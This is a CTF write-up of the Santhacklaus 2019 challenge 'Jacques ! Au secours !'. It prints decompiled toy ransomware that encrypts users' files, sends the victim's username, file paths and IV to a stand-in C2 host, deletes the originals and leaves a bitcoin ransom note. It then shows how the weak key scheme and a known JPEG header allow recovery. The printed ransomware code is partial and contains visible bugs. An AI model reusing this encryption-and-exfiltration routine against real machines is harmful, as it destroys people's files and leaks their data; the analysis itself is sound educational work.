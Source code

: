```yaml
---
title: "Santhacklaus 2019: Jacques ! Au secours !"
slug: santa-jacques
date: 23/12/2019
---
```


**Before we start!** This post is authored by [@pwnh4](https://twitter.com/pwnh4).
I'm really proud to have him for this guest post as he started computer security
only a few months ago with my [2019 Piscine](https://blog.geographer.fr/posts/piscine-poc-2019)
but already performs very well in CTF. Go follow him!

***

*Jacques ! Au secours!* is a cryptography challenge of the Santhacklaus 2019
CTF.

![Intro](/assets/santa/jacques/chall.png)

Let's start by downloading and extracting the provided `.zip` file:

```
➜  chall_files tree
.
├── vacation pictures
│   ├── DCIM-0533.jpg.hacked
│   ├── DCIM-0534.jpg.hacked
│   ├── DCIM-0535.jpg.hacked
│   ├── DCIM-0536.jpg.hacked
│   └── READ_THIS.txt
└── virus.cpython-37.pyc
```

The `.pyc` file is some Python bytecode. It is not human readable so let's
use some [online Python decompiler](https://python-decompiler.com/) to retrive
the actual code source of what looks to be a Python ransomware.

## The Ransomware

```python
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, os, getpass, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
TARGETS = ['Scott Farquhar', 'Lei Jun', 'Reid Hoffman', 'Zhou Qunfei', 'Jeff Bezos', 'Shiv Nadar', 'Simon Xie', 'Ma Huateng', 'Ralph Dommermuth', 'Barry Lam', 'Nathan Blecharczyk', 'Judy Faulkner', 'William Ding', 'Scott Cook', 'Gordon Moore', 'Marc Benioff', 'Michael Dell', 'Yusaku Maezawa', 'Yuri Milner', 'Bobby Murphy', 'Larry Page', 'Henry Samueli', 'Jack Ma', 'Jen-Hsun Huang', 'Jay Y. Lee', 'Joseph Tsai', 'Dietmar Hopp', 'Henry Nicholas, III.', 'Dustin Moskovitz', 'Mike Cannon-Brookes', 'Robert Miller', 'Bill Gates', 'Garrett Camp', 'Lin Xiucheng', 'Gil Shwed', 'Sergey Brin', 'Rishi Shah', 'Denise Coates', 'Zhang Fan', 'Michael Moritz', 'Robin Li', 'Andreas von Bechtolsheim', 'Brian Acton', 'Sean Parker', 'John Doerr', 'David Cheriton', 'Brian Chesky', 'Wang Laisheng', 'Jan Koum', 'Jack Sheerack', 'Terry Gou', 'Adam Neumann', 'James Goodnight', 'Larry Ellison', 'Wang Laichun', 'Masayoshi Son', 'Min Kao', 'Hiroshi Mikitani', 'Lee Kun-Hee', 'David Sun', 'Mark Scheinberg', 'Yeung Kin-man', 'John Tu', 'Teddy Sagi', 'Frank Wang', 'Robert Pera', 'Eric Schmidt', 'Wang Xing', 'Evan Spiegel', 'Travis Kalanick', 'Steve Ballmer', 'Mark Zuckerberg', 'Jason Chang', 'Lam Wai Ying', 'Romesh T. Wadhwani', 'Liu Qiangdong', 'Jim Breyer', 'Zhang Zhidong', 'Pierre Omidyar', 'Elon Musk', 'David Filo', 'Joe Gebbia', 'Jiang Bin', 'Pan Zhengmin', 'Douglas Leone', 'Hasso Plattner', 'Paul Allen', 'Meg Whitman', 'Azim Premji', 'Fu Liquan', 'Jeff Rothschild', 'John Sall', 'Kim Jung-Ju', 'David Duffield', 'Gabe Newell', 'Scott Lin', 'Eduardo Saverin', 'Jeffrey Skoll', 'Thomas Siebel', 'Kwon Hyuk-Bin']

def get_username():
    return getpass.getuser().encode()

#
# ....
#

def lock_files():
    username = get_username()
    print(username)
    if username in TARGETS:
        for directory, _, filenames in os.walk(TARGET_DIR):
            for filename in filenames:
                if filename.endswith('.hacked'):
                    continue
                fullpath = os.path.join(directory, filename)
                print('Encrypting', fullpath)
                lock_file(fullpath)

        with open(os.path.join(TARGET_DIR, 'READ_THIS.txt'), 'wb') as (fo):
            fo.write('We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com\n')


if __name__ == '__main__':
    lock_files()

```

The way the ransomware works is pretty simple. It has a list of usernames
defined in `TARGET`. If the victim is one of them, it encrypts his files and
asks for a ransom.

Let's focus on the encryption process:

```python
def xorbytes(a, b):
    assert len(a) == len(b)
    res = ''
    for c, d in zip(a, b):
        res += bytes([c ^ d])

    return res


def lock_file(path):
    # 1
    username = get_username()
    hsh = hashlib.new('md5')
    hsh.update(username)
    key = hsh.digest()
    cip = AES.new(key, 1)

    # 2
    iv = get_random_bytes(16)

    #3
    params = (('target', username), ('path', path), ('iv', iv))
    requests.get(C2_URL, params=params)

    #4
    with open(path, 'rb') as (fi):
        with open(path + '.hacked', 'wb') as (fo):
            block = fi.read(16)
            while 1:
                if block:
                    while 1:
                        if len(block) < 16:
                            block += bytes([0])
                    cipherblock = cip.encrypt(xorbytes(block, iv))
                    iv = cipherblock
                    fo.write(cipherblock)
                    block = fi.read(16)

    os.unlink(path)
```

We can observe multiple interesting things:

1. The key used for encryption is the MD5 hash value of the victim username.
We can also see the declaration of an AES cipher in EBC mode ( `AES.new(key, 1)`)
2. We can see that a variable `IV` is defined. An Initialization vector is used
in AES CBC mode which means that this function is implementing its own AES CBC
encryption. The IV is set to a random 16 bytes value.
3. There is a request to what should be a C&C (useless for our case)
4. The encryption algorithm: for each 16 bytes block of the file to encrypt,
we xor it with the IV and we encrypt the result with the AES ECB cipher defined
in step 1. Then, the result is written in the `.hack` file and the IV is set to
this current encrypted block.

This algorithm is beautifully represented in this Wikipedia schema:

![Wikipedia CBC](/assets/santa/jacques/cbc.png)

## The problem

We can uncipher every block in the `.hack` file except the first one, as it
is the IV that was initialized to a random 16 bytes value.

But luckily we can bypass this! We know that we want to retrieve a JPG files. Thus, we could try to guess the first plaintext block based on the standard header of the JPG format. Let's try with:

```
\xff\xd8\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00
```
An other problem is that we should try all targeted usernames as key. But
let's make some guess and consider that the key is `Jack Sheerack` (because
of the challenge name). We will check the unciphered files generated with
this key first.

Ok, so now that we have solutions for our issues, let's decode the hacked files!

## The script

```python
for target in TARGETS:
    key = hashlib.md5(target.encode()).digest()
    f = sys.argv[1]

    # used to store all 16 bytes block
    blocks = []
    with open(f, "rb") as f:
        while not len(blocks) or len(blocks[-1]):
            blocks.append(f.read(16))
    del blocks[-1]

    cip = AES.new(key, 1)
    with open("/tmp/out-"+target+".jpg", "wb") as fo:
        # write 16 bytes of jpg header
        fo.write(b"\xff\xd8\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00")
        # decode each ith block using the i-1th block as initialization vector
        for i in range(1, len(blocks)):
            fo.write(xorbytes(cip.decrypt(blocks[i]), blocks[i-1]))
```

We try to open the file associated with the `Jack Sheerack` key but it is
invalid. Just like all the other files...

At this time I was quite lost and tried to figure out why my generated JPG
files were invalid.

## Black Magic

After some research, I found the ImageMagick tool, which is great to
help me debug my generated files.

With the `identify` command, you can detect all the corruption sources.

```
➜  identify -regard-warnings -verbose /tmp/out-Jack\ Sheerack.jpg

...
Artifacts:
  filename: /tmp/out-Jack Sheerack.jpg
  verbose: true
Tainted: False
Filesize: 174736B
Number pixels: 990000
Pixels per second: 62.6515MB
User time: 0.010u
Elapsed time: 0:01.015
Version: ImageMagick 6.9.10-67 Q16 x86_64 2019-10-04 https://imagemagick.org
identify: Corrupt JPEG data: 18 extraneous bytes before marker 0xfe `/tmp/out-Jack Sheerack.jpg' @ warning/jpeg.c/JPEGWarningHandler/389.
```

Thats a good thing! Our JPG is corrupted. How is that a good thing? Well now
we know that it is almost valid ! If I try the same thing on a generated file
with the key `Jack Ma`, `identify` simply doesn't work:

```
identify: Unsupported JPEG process: SOF type 0xc3 `/tmp/out-Jack Ma.jpg' @ error/jpeg.c/JPEGErrorHandler/338.
```

At this time I discovered another tool part of the ImageMagick suite:
`mogrify`, which helps correct the corrupted bytes in my generated JPG. I
simply have to indicate the error I want it to correct:

```
➜  mogrify -set comment 'Extraneous bytes removed' /tmp/out-Jack\ Sheerack.jpg

mogrify: Corrupt JPEG data: 18 extraneous bytes before marker 0xfe `/tmp/out-Jack Sheerack.jpg' @ warning/jpeg.c/JPEGWarningHandler/389.
```

I can now open my file and see a wonderful photo of Jacques Chirac!

![Flag](/assets/santa/jacques/flag.jpg)

The picture with the flag was `DCIM-0534.jpg.hacked`.